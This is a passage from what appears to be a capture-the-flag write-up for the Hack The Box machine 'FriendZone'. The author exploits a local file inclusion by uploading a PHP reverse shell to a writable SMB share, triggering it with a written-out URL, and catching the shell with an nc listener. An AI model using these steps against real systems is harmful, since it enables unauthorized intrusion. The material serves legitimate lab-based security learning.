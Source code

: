 The `.php` suffix is added automatically after the filename so I can't arbitrarily read any files. I tried the PHP path truncation technique as well as adding null bytes at the end of string but I was not able to bypass this.

I also dumped the `upload.php` source code and saw that the upload thing is just a troll since it doesn't do anything.

```php
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

### Getting a shell with PHP

The `Development` share I saw earlier is writable by the guest user so I can upload a PHP reverse shell in there and use the LFI to trigger it. The full path of the share is `/etc/Development` as indicated in the nmap script output.

```
# smbclient -U "" //10.10.10.123/Development
Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (184.9 kb/s) (average 184.9 kb/s)
smb: \> 
```

I trigger the shell with the following request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell`

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 36974
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 23:16:59 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$
```
